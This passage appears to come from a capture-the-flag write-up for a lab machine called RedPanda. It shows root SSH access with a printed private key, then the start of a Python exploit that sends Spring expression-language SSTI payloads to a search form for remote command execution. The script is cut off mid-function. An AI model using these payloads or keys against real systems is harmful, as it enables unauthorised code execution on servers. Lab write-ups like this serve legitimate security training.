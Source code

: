 ###### Elevate privileges

	vi id_rsa

```text
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
```

	chmod 600 id_rsa
	ssh root@10.10.11.170 -i id_rsa

```text
root@10.10.11.170
root@redpanda:~#
```

	cat /root/root.txt

```text
<...FLAG...>
```

## Proof-of-Concept

### Automate SSTI exploitation

Injects malicious input into template to execute commands on the server-side.

	exploit.py

```python
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        command = args
        commands = []

        for i in command:
            commands.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % commands[0]

        for i in commands[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        request = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(request.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
```